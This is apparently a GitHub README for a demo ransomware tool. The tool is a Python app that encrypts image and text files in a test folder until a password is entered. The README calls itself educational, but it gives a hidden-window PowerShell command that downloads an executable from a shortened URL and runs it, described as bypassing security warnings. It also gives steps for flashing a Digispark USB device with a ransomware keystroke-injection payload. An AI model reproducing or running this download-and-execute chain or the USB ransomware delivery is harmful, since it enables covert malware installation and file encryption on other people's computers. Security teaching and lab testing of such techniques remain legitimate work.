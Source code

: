 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!** \
**IT IS ALWAYS RECOMMENDED TO TEST THESE KINDS OF PROGRAMS INSIDE A VIRTUAL MACHINE WITH NO SENSITIVE INFORMATION INCASE OF SOMETHING GOES WRONG**

**Version 1.0**

![bio](https://github.com/therealhalonen/PhishSticks/assets/112076418/8e7f742d-bdc4-41d0-9aaa-8a6493df29f7)

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in the directory called TestDirz338

If combined with the PowerShell script below, the application gets downloaded and executed in path `{USER}\TestDirz338\` 

Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files when user gives up the right password (lihapulla).

![270753154-8fb9e882-b990-48cd-add6-309dd09af3be](https://github.com/therealhalonen/PhishSticks/assets/112076418/bee3e9ec-499b-4a0e-af8b-fc5e2c04b4ea)

## How to use

Download and run the script or .exe file inside a safe folder called TestDirz338 with no important files (incase something goes wrong) and enjoy, for example:

```
$ mkdir TestDirz338
$ cd TestDirz338
$ python3 encrypt.py
```
OR

Make a folder called TestDirz338 in the path C:/Users/{USER}/

![2023-12-05_18-59](https://github.com/therealhalonen/PhishSticks/assets/112076418/6682c7df-debb-40ce-bba0-aea449f228f4)


Bypass security warnings and download the file in users %TEMP folder % & execute the application instantly in TestDirz338 folder by typing the following code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/28sb6pvc', \"$env:TEMP\decryptor.exe\");Start-Process \"$env:TEMP\decryptor.exe\" -WorkingDir \"$env:UserProfile\TestDirz338\""
```
If you don't have a folder called TestDirz338 in path C:/Users/{USER}/ and you execute the code above, nothing happens. Also trying to run the executable anywhere else that inside TestDirz338 raises an error:

![2023-12-05_18-56](https://github.com/therealhalonen/PhishSticks/assets/112076418/85b533aa-ec2b-40af-9d5d-66121cf92b4f)

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To set up Digispark payload:
- [Set up Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-12-05_19-12](https://github.com/therealhalonen/PhishSticks/assets/112076418/835e2937-1551-41fc-91f6-2b135fd5e0cb)



Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI
